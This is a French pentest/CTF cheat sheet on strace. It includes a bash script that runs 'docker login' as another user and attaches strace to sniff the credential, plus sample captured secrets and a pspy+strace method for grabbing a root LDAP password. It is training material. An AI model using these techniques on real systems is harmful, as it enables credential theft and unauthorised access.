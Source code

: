 # STRACE

***

### <mark style="color:red;">🧩 Définition</mark>

* **strace** = outil Linux qui intercepte et affiche les **appels système** faits par un processus.
* Utile en dev pour débogage, mais aussi en **pentest** pour espionner :
  * Ouverture de fichiers sensibles.
  * Lecture/écriture de secrets dans pipes/sockets.
  * Communications réseau brutes.
* En CTF, il sert à **sniffer un mot de passe ou token** en clair pendant qu’une commande sensible tourne.

***

### <mark style="color:red;">🔐 Fonctionnement</mark>

* strace **s’attache à un PID** et affiche tous ses appels système (`read`, `write`, `openat`, `connect`, …).
* Peut montrer :
  * Les **arguments** de ces appels (par ex. contenu d’un `read()` = mots de passe).
  * Les **fichiers ouverts** (`/etc/shadow`, `/tmp/secret.txt`).
  * Les **connexions réseau**.

***

### <mark style="color:red;">⚙️ Options clés</mark>

* **Lancer un programme sous strace** :

```bash
strace -f -s 128 -e trace=all /usr/bin/docker login
```

* **Attacher à un processus existant** :

```bash
strace -p <PID>
```

* **Afficher seulement certains appels système** :

```bash
strace -e trace=openat,read,write -p <PID>
```

* **Afficher taille des buffers (ex: mots de passe)** :

```bash
strace -s 256 -p <PID>
```

* **Suivre les threads enfants** :

```bash
strace -f -p <PID>
```

***

### <mark style="color:red;">📂 Exemple offensif en CTF (ton script)</mark>

#### Script

```bash
#!/bin/bash
sleep 2

# 1. Lancer docker login comme un autre user
sudo -u rebecca_smith /usr/bin/docker login &

# 2. Récupérer son PID
TARGET_PID=""
while [ -z "$TARGET_PID" ]; do
    TARGET_PID=$(pgrep -u rebecca_smith -f "/usr/bin/docker login")
done

# 3. Attacher strace
sudo -u rebecca_smith /usr/bin/strace -s 128 -p $TARGET_PID -f -e trace=openat,read
```

#### Résultat

```
[pid 78333] read(7, "{\"Username\":\"rebecca_smith\",\"Secret\":\"-7eAZDp9-f9mg\"}\n", 512) = 54
```

💡 Ici → mot de passe API `-7eAZDp9-f9mg` intercepté en clair dans un `read()`.

***

### <mark style="color:red;">🎯 Cas d’usage offensifs</mark>

1. **Sniffer mots de passe pendant login**
   * `docker login`, `psql -h`, `mysql -u`, `ssh`…
   * strace révèle le mot de passe quand le binaire lit depuis stdin/socket.
2.  **Identifier fichiers secrets ouverts**

    ```
    openat(AT_FDCWD, "/etc/krb5.keytab", O_RDONLY) = 3
    ```

    ➝ tu sais que le service utilise `/etc/krb5.keytab`.
3.  **Capturer des secrets dans pipes**

    ```
    read(7, "password=SuperSecret123", 512) = 24
    ```

    ➝ mot de passe transitant entre process.
4. **Reverse engineering de service inconnu**
   * Tu attaches à un binaire sans debug symbols.
   * Tu observes les syscalls → tu comprends ce qu’il fait (ex: lire un token, se connecter à LDAP).

***

### <mark style="color:red;">📚 Combinaison avec pspy</mark>

* **pspy** = détecter **QUAND** un processus sensible démarre.
* **strace** = capturer les appels système pour en extraire les **secrets**.

Exemple concret :

```
pspy → détecte : UID=0 CMD: /usr/bin/ipa user-mod ...
strace → attache au PID → capture : --setattr userPassword=w@LoiU8Crmdep
```

➡️ Tu voles le mot de passe root LDAP en clair.

***
